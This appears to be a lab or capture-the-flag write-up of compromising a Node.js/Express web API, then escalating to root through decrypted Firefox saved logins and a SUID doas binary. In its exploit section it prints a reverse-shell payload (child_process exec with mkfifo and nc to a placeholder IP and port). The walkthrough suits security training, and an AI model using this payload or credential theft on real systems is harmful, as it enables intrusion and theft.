# Web API Compromise and Privilege Escalation
-----
# 1. Reconnaissance

Initial reconnaissance was performed with Nmap to identify open ports and running services.



This indicated that the main attack surface was the web application hosted over HTTP.

-----
# 2. Web App Enumeration
After visiting the web application in the browser, the page source and JavaScript functionality were reviewed. 



This indicated that the application had a backend API and that /api/access was likely related to authentication or access control.

Calling the discovered function from the browser console returned a JSON object containing a token. Token can also be revealed from http://target_ip/api/access.





The token was Base64-encoded.

##Finding: Information Disclosure 

The application exposed authentication related logic through client side JavaScript. 

--------

# 3. Authentication bypass

After decoding the token, it was supplied as a cookie using Burp Suite. 



--------
# 4. API Enumeration

Since the application used API routes, endpoint fuzzing was performed. 



The scan discovered additional valid endpoint.

The /api/items endpoint was also referenced in the JavaScript source file.



--------
# 5. Backend Identification

Searching for not existing directories respond with Cannot GET /api/. 

Additionally, HTTP response headers included: X-Powered-By: Express

This confirmed that the backend application was running on Node.js with the Express framework.

--------
# 6. Exploit

It appeared that API endpoint accepts POST request which was discovered using Burp Suite Repeater. 
The endpoint also accepted user controlled input through a cmd parameter. 



Finding payload:



require('child_process').exec('mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc IP PORT > /tmp/f')

Encode payload with Burp Decoder



---------
# 7. Privelege Escalation

Reverse shell was established after sending payload 

Upgrading shell:


Searching for SUID:


The output showed several standard SUID binaries, but one unusual entry stood out - /usr/local/bin/doas




Lab gave a hint that v0id user has priveleges and it is needed to find creds or escalate. 

During filesystem enumeration, a Firefox profile backup was discovered under the user home directory. 
The profile contained files commonly used to store saved browser credentials, including:
---
logins.json
key4.db
cert9.db
---

Creds were decrypted using - https://github.com/unode/firefox_decrypt/

After switching user to v0id doas was used to execute a command as root using doas.



